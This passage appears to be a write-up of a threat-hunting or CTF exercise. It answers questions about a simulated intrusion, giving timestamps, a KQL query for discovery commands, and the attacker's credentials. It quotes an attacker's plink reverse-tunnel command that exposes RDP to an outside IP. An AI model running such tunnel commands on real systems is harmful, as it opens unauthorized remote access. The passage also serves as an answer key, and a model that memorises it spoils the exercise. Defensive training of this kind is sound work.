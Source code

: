 ## Question 7

**When was this docx file downloaded?**

> `2024-01-10T08:55:17Z`
> 

## Question 8

**When was the .ps1 file dropped to Ronnie's machine?**

> `2024-01-10T08:55:51Z`
> 

## Question 9

**What IP address was used with plink on Ronnie's machine?**

> `168.57.191.100`
> 

<aside>
💡

plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100

</aside>

## Question 10

**What username was used with plink on Ronnie's machine?**

> `$had0w`
> 

## Question 11

**What password was used with plink on Ronnie's machine?**

> `thruthW!llS3tUfree`
> 

## Question 12

**How many discovery commands were run on Ronnie's machine?**

> `5`
> 

```sql
ProcessEvents
| where hostname == "A37A-DESKTOP" and parent_process_name == "cmd.exe"
| project-keep process_commandline,timestamp
```
